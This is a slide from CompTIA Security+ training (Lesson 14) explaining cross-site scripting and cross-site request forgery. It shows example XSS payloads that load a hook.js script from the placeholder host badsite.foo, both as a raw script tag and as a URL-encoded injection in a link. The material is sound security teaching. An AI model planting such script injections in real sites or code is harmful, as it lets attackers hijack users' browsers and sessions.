

# Cross-Site Scripting (XSS)
Check out this amazing <a href="https://trusted.foo">website</a><script src="https://badsite.foo/hook.js"></script>.

Attacker injects code in trusted site that will be executed in client browser
A client-side or cross-site request forgery (CSRF or XSRF) can exploit applications that use cookies to authenticate users and track sessions.
The attacker must convince the victim to start a session with the target site. The attacker must then pass an HTTP request to the victim's browser that spoofs an action on the target site

https://trusted.foo/messages#user=James%3Cscript%20src%3D%22https%3A%2F%2Fbadsite.foo%2Fhook.js%22%3E%3C%2Fscript%3E
CompTIA Security+ Lesson 14 | Copyright © 2020 CompTIA Properties, LLC. All Rights Reserved.  |  CompTIA.org
14